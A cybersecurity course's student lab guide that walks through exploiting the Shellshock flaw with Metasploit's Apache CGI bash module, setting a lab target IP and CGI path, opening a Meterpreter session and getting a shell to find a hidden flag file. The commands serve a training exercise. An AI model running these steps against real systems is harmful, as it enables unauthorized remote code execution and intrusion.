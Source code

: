 ## Student Guide: Attacking Shellshock with Metasploit 
 
 The goal of this activity was to practice using the Metasploit framework to exploit Shellshock.

---
 
1. Type the command that launches Metasploit:
 
      - `msfconsole`
 
   ![Meta 1](../../Images/M_1.png)
 
2. Type the command that performs a search for the `shellshock` exploit module:
 
   - `search shellshock`
 
   ![Meta 2](../../Images/M_3.png)
 
3. Type the command that loads the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module:
 
   - `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
 
4. Type the command that shows the module options:
 
   - `show options`
 
   ![Meta 3](../../Images/MSF_3.png)
 
5. Now that the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module is loaded, configure the module's target using the victim's IP address and specify which MSF exploit module to use.
 
   - Type the command that sets the `RHOSTS` option to the given target's IP address:
 
      - `set RHOSTS 192.168.0.21`
 
   - Type the command that sets the `TARGETURI` path to use the exploit module `/cgi-bin/vulnerable`:
 
      - `set TARGETURI /cgi-bin/vulnerable`
  
 6. Type the command that runs the exploit.
 
      - `run` or `exploit`
 
7. A Meterpreter session should now be open. 
   - Try to locate the hidden `flag` file on the exploited machine. 
   - **Hint** We'll cover this more in class next time, but try using Meterpreter's `shell` command to gain a **bash shell** into the victims machine.
   
`Solution:`

There are a few different to locate the locate the hidden flag. One of the easiest ways to locate the flag is by using the meterpreter's built in `shell` command to get a bash shell into the victims machine. From there, you can navigate through the different directories and use the `find` command to locate the flag. 
- Run: `shell` to get the shell command. 
- Run: `cd /` to the current directory to the root directory. 
- Run: `find . -iname flag` to find the flag file. 

You'll find the flag file in the `/var/www/secrets` directory. 

 
   ![Meta 4](../../Images/META_4.png)
   
____
  
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
